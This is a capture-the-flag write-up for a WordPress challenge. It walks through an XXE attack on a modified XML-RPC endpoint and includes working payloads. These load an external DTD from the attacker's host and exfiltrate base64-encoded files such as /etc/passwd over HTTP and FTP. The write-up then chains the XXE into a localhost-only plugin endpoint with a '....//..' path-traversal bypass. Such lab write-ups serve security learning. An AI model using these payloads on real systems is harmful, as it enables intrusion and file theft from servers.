






# XML is love, XML is live  - Medium

## Description
___
<p>An administrator tried to devellope on the website and introduced a vulnerability in the super secure CMS WordPress</p>
Can you find the vulnerability and exfiltrate the flag ?

We are given the url of the website: http://web-vxslkw.inst.malicecyber.com/


<br>
<br>

## Solution
___

The website is a classic and very basic Wordpress. There is only one article by admin wich state "oops, I tried to modify the XML-RPC Wordpress implementation but I think I broke everythings"
The article has a answer from sysadmin which say "don't worry, I made sure no one could attack us"

<p align="center">
  
</p>

<br>

This article, with the challenge title, give us good informations to where to look to find the vulnerability : the XML-RPC API
the XML-RPC API in Wordpress is an old API but still implemented by default in Wordpress which can be used to interact with the CMS via XML-based requests. The endpoint to reach this API in Wordpress CMS is /xmlrpc.php. It's better to disable this functionnality in general because it can be used to make amplified DDOS or Bruteforce.
Let's work on http://web-vxslkw.inst.malicecyber.com/xmlrpc.php.
There are example of requests we can use to interact with the api on the internet, by example we can list all available functions: 



There are not non-standart methods, maybe we could trigger an error by sending an invalid XML request ?


That's strange, we get an error message which indicate that the XML has not been properly parsed. With this response, we can conclude that the XML parsing has been modified and that the vulnerability is probably there ! Moreover, XML parsing vulnerability in web application are known vulnerabilities named XXE (XML External Entity) https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

It's possible to do various things with such vulnerabilities, by example, it's possible to read files on the remote server and even extract them to our machine.
We can find help in many websites to find example attack and payloads, by example on https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

After playing for a while whith various payload, I managed to find a way to read files on the target system :

We send this XML request to xmlrpc : 
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY % pe SYSTEM "http://My.IP:8888/test.dtd"> %pe; %param; ]>
<test>&final;</test
```
This will make a request to load in execute an other payload hosted in my server, in a file test.dtd :
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param "<!ENTITY final SYSTEM 'http://My.IP:8888/%file;'>">
```
Finally, it should send me the result back to my server again (here with the base64 encoded /etc/passwd)



It worked ! but not entirely tough..
The target loaded the payload hosted on my server, but then it failed to exfiltrate the content of /etc/passwd because it creates a too long url for the parser. Hopefully, the error message display a part this content. 
At this point, we can print the content of small files or part of bigger files. but we cannot access big giles entirely.
After ton of research in basic linux files, I did not find any things related to the flag, so I tried to find a way to exfiltrate BIG files.
I saw in the documentation that it was possible to exiltrate file with ftp, so I tried and modified my payload :

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param "<!ENTITY final SYSTEM 'ftp://My.IP:8889/%file;'>">
```
and started a ftp service on my host : 
`python3 -m pyftpdlib -p 8889`

I executed the payload again and the magic happened, I got a request to my ftp :


We can exfiltrate any kind of files now !

I searched during a lot of time inside various files and finally find a reference to a file "startup.sh" in the filesystem root.
I extracted it :

```
#!/bin/bash

cd /var/www/html/
wp-cli --allow-root config create --dbhost=127.0.0.1 --dbname=wp --dbuser=wp --dbpass=password --dbprefix=wp_ --skip-check
wp-cli --allow-root config set AUTOMATIC_UPDATER_DISABLED true --raw
wp-cli --allow-root core install --title="Site personnel du DG'Hack" --admin_user=admin  --admin_password="$(openssl rand -hex 10)" --admin_email=sysadmin@demo.fr --url="http://$1" --skip-email
wp-cli --allow-root post update 1 --post_content="J'ai voulu refaire l'implémentation du XML-RPC de WordPress mais j'ai tout cassé je crois..." --post_title="Oups"
wp-cli --allow-root comment update 1 --comment_content="C'est pas grave, j'ai pris des mesures pour que l'on ne se fasse pas attaquer." --comment_author="sysadmin"
wp-cli --allow-root plugin install /admin-logs.zip --activate
```

Whoops, looks like the file used to initialize the challenge.. what is this admin-logs.zip archive ?
I extracted admin-logs.zip which was also on the root of the filesystem and found source-code of a custom wordpress plugin with interresting code like:

in admin-logs/includes/utils.php :
```
<?php

function is_localhost()
{
    $whitelist = array('127.0.0.1', '::1');
    if (in_array($_SERVER['REMOTE_ADDR'], $whitelist)) {
        return true;
    }
    return false;
}

function checksec($path) {
    return str_replace(array( "../", "..\"" ), "", $path);
}
```


in admin-logs/public/class-admin-logs-public.php :

```
	public function read_system_logs() {
        if (!is_localhost())
            die("Only localhost can access this page.");

        define("LOG_DIR", '/var/log/');

        if(isset($_GET['dir'])) {
            $dir = checksec($_GET['dir']);
            echo json_encode(scandir(LOG_DIR . $dir));
        } else if(isset($_GET['file'])) {
            $file = checksec($_GET['file']);
            readfile(LOG_DIR . $file);
        }
    }
```

in admin-logs/includes/class-admin-logs.php :
```
private function define_public_hooks() {

		$plugin_public = new Admin_Logs_Public( $this->get_plugin_name(), $this->get_version() );
		$this->loader->add_action( 'wp_enqueue_scripts', $plugin_public, 'enqueue_styles' );
		$this->loader->add_action( 'wp_enqueue_scripts', $plugin_public, 'enqueue_scripts' );
		$this->loader->add_action('wp_ajax_nopriv_read_system_logs', $plugin_public,'read_system_logs');

	}
```
After some research on Wordpress and all the pieces put together: I concluded that there was an ajax api endpoint to invoke a function 'read_system_log', which can only be used by from the local host. This function can take two parameters: dir to list all files of a folder in the var log directory, file to open a specific file in the var log directory. Notice also that there is a filter on the path given, replacing the "../" with "..\"

with the code and Wordpress documentation, we can find the API endpoint and test it : 
http://web-vxslkw.inst.malicecyber.com/wp-admin/admin-ajax.php?action=read_system_logs&dir=.



The request give us a HTTP 200 code but we can't list the directory, because we are not the local machine.
To make requests to the API with the local machine and exfiltrate the result to our server, we can use our goood old XXE we found earlier.
We change our local payload :

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/wp-admin/admin-ajax.php?action=read_system_logs&dir=....//..">
<!ENTITY % param "<!ENTITY final SYSTEM 'ftp://My.IP:8889/%file;'>">
```
Note that we bypass the filter to list the files of the root directory. We use this path : `....//..`
We get the exfiltration on our ftp and base64 decode it :
`[".","..",".dockerenv","admin-logs.zip","bin","boot","data.sql","dev","entrypoint.sh","etc","flag-103083938c29ed3d630e","home","lib","lib64","media","mnt","opt","proc","root","run","sbin","srv","startup.sh","sys","tmp","usr","var"]`

We manage to list the root directory and find the flag name ! now we can just use our first XXE payload to exfiltrate it :
DGA{5d15975aabc37d088c6f594d927155d93ae57cdd}
